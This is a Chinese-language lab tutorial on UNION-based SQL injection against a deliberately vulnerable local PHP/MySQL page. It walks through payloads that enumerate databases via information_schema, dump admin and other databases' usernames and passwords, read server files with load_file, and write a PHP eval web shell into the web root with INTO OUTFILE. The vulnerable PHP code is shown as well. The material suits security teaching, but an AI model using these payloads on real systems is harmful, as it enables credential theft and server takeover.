# SQL注入&跨库查询&文件读写&权限操作

## :school:实验环境

`PHPStudy`、火狐、`Navicat Premium`

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>{page_title}</title>
    <style>
    ...//省略了样式
    </style>
</head>
<body>
<header>
    <h1>{heading}</h1>
</header>
<nav>
    <a href="#">首页</a>
    <a href="#">新闻</a>
    <a href="#">留言</a>
    <a href="#">关于</a>
</nav>
<div class="container">
    <h1>{subheading}</h1>
    <p>{content}</p>

    </img>

</div>
</body>
</html>
```

```php
<?php
include 'config.php';
$template=file_get_contents('new.html');//读取模板文件

$id=$_GET['id'] ?? '1';
$sql="select * from news where id=$id";
echo $sql;  //为了方便实验
$data=mysqli_query($con,$sql);
while ($row=mysqli_fetch_row($data)) {
    $page_title=$row['1'];
    $heading=$row['2'];
    $subheading=$row['3'];
    $content=$row['4'];
    $item=$row['5'];
    //echo $page_title;
}

//echo "$page_title<br>$page_title";


$template=str_replace('{page_title}',$page_title,$template);
$template=str_replace('{heading}',$subheading,$template);
$template=str_replace('{subheading}',$subheading,$template);
$template=str_replace('{content}',$content,$template);
$template=str_replace('{$item}',$item,$template);
eval('?>' . $template);
?>
```





## :dancer:实验步骤

默认的时候ID=1 ==为了方便实验这里使用了echo输出==


```
mysql                          ）
	数据库名A             
		表名
			列名（字段）
				数据
	数据库名B
		表名
			列名（字段）
				数据
			
```

目的是获取数据 进一步得到信息

### :sake:猜字段  

```
order by 6                     //猜字段数量
```

直到页面显示正常


这里猜7不正常



猜6正常



### :desktop_computer:测试数据回显位置

```
union select 1,2,3,4,5,6                         \\测试数据回显位置
```

```
id=-1 union select 1,2,3,4,5,6                         \\报错报出数字
```



### :dragon:查询内容

```
union select 1,2,3,database(),user(),6      //查询数据库名   当前用户
```




```
union select 1,2,3,version(),@@version_compile_os,6       \\查询版本    查询操作系统
```



==MYSQL5.0以上版本：自带的数据库名information_schema==

```
union select 1,2,3,table_name,5,6 from information_schema.tables where table_schema='demo01'        
//在information_schema.tables表table_schema='demo01' 查询table_name
```


```
union select 1,2,3,4,group_concat(table_name),6 from information_schema.tables where table_schema='demo01'   //group_concat(table_name) 一次性执行全部显示
```




```
mysql                          
	admin           (从名字来分析 admin 数据库信息更重要)  
		表名
			列名（字段）
				数据
	gbook
		表名
			列名（字段）
				数据
	news
		表名
			列名（字段）
				数据			
```

```
union select 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_name='admin'     //查询字段名（列名）
```


```
union select 1,2,3,username,password,6 from admin limit 0,1
```





# :sassy_man:跨库查询

每个网站都是由root账户管里  ==本案例适用于数据库统一管理==

```
union select 1,2,3,4,group_concat(schema_name),6 from information_schema.schemata
```



```
id=1 union select 1,2,3,4,group_concat(table_name),6 from information_schema.tables where table_schema='sert'
```



```
union select 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_name='zbp_member' and table_schema='sert'
```



```
union select 1,2,3,mem_Name,mem_Password,6 from sert.zbp_member
```



# :currency_exchange:PHP-MYSQL-SQL文件读写

在`mysql` 文件 `my.ini `  控制可访问路径       当前状态为可以访问全部路径



双`\`转义



```
union select 1,2,3,load_file('d:\\1.txt'),5,6        //文件的读取
```



```
 union select 1,'wwww',3,4,5,6 into outfile 'd:\\2.txt'   //写入文件
```



==写入后门代码==                

```
union select 1,2,3,'<?php eval($_POST[x]);?>',5,6 into outfile 'E:\\phpstudy_pro\\WWW\\demo02\\2.php'
```

==无杂项版本==

```
UNION SELECT 
'', '', '', '<?php eval($_POST[x]);?>', '', ''
INTO OUTFILE 'E:\\phpstudy_pro\\WWW\\demo02\\2.php'
```

load_file()的使用 可以在百度上搜索

load_file()常用路径

网站报错

phpinfo 爆出路径
